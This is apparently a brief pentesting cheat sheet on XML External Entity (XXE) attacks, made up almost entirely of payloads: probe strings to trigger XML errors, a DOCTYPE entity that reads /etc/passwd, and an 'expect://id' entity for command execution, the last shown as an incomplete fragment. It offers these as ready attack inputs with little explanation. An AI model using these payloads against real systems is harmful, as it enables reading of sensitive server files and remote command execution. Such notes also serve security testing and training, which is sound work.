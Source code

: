 # XXE

## Concept
```<!Entity nooranet SYSTEM "file:///etc/passwd">```

## Discovery
- Find ```xml``` in error of these payloads
  - ```.php?xml=>```
  - ```.php?xml=/>```

## Exploitation
- LFI
```XML
<!DOCTYPE foo[
<!Entity xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```
- Command Injection
```XML
<!Entity xxe SYSTEM "expect://id">]>
```
